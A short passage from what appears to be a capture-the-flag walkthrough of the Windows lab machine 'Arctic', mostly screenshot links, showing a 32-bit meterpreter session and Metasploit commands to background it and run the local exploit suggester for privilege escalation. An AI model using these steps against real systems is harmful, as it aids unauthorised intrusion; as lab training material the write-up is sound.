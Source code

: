 ![](/Windows/Windows-Easy/Arctic/Screenshots/shell.png)

![](/Windows/Windows-Easy/Arctic/Screenshots/meterpreter.png)

it running a 32bit meterpreter 

![](/Windows/Windows-Easy/Arctic/Screenshots/32Bit.png)

now we send the session to the background so that we can use `Suggester`  to search for exploits 

```sh
background
search suggester
use 0
show options
set SESSION 1
run
```

